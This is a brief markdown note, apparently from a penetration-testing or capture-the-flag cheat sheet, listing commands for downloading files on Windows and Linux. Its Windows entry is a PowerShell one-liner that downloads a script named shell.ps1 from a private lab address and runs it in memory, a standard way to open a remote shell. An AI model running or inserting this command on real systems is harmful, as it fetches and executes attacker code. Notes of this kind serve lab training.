 # window

``` "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");  ```

# Linux

``` wget http://filename -O finame ```

``` curl http://www.abc.com/123/def/ghi/jkl.mno -o filename ```
